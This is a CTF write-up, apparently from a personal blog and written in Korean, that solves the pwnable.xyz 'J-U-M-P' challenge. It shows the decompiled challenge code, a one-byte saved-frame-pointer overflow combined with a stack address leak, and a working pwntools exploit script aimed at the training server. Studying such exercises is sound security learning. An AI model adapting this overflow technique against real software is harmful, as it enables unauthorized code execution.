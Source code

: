 ```yaml
---
title: "[pwnable.xyz]J-U-M-P"
date: 2020-1-30
ctf: Pwnable.xyz
layout: post
published : false
---
```


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int8 v3; // [rsp+2Fh] [rbp-11h]
  __int64 v4; // [rsp+30h] [rbp-10h]
  void *v5; // [rsp+38h] [rbp-8h]

  setup();
  v4 = gen_canary();                            // canary
  puts("Jump jump\nThe Mac Dad will make you jump jump\nDaddy Mac will make you jump jump\nThe Daddy makes you J-U-M-P\n");
  v5 = &loc_BA0;
  while ( 1 )
  {
    print_menu();
    printf("> ", argv);
    v3 = read_int8();
    switch ( v3 )
    {
      case 2u:
        v5 = (void *)(signed int)((unsigned int)v5 ^ v3);
        break;
      case 3u:
        argv = (const char **)environ;
        printf("%p\n", environ);
        break;
      case 1u:
        if ( v4 == canary )
          JUMPOUT(__CS__, v5);
        break;
      default:
        puts("Invalid");
        break;
    }
  }
}
```

read_int8함수에서 buf 크기가 0x20인데 0x21만큼 받으므로 sfp 1바이트를 조작할 수 있다.

```c
int read_int8()
{
  char buf; // [rsp+0h] [rbp-20h]

  read(0, &buf, 33uLL);
  return atoi(&buf);
}
```

3번 메뉴로 stack address leak이 가능하고 1번 메뉴에서 v5로 뛸 수 있으므로 v5만 변조해주면 win함수를 호출할 수 있다.

main의 rbp를 옮겨서 v5위치에 v3를 만들어 win함수의 하위 1바이트로 변경해주고 canary가 걸려있으니까 rbp를 다시 되돌려준 후 JUMP 뛰면 win함수로 뛰게된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./challenge')
#p = process('./challenge')
p = remote('svc.pwnable.xyz',30012)
win = 0xB77
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)

sla('>','3')
env = int(p.recvline().strip(),16)
log.info('environ : {}'.format(hex(env)))
rbp = env - 248
log.info('rbp : {}'.format(hex(rbp)))

sa('>','A'*32+p8((rbp&0xff)+9))
sa('>',str(win&0xff))
sa('>','A'*32+p8(rbp&0xff))
sa('>','1')

p.interactive()
```

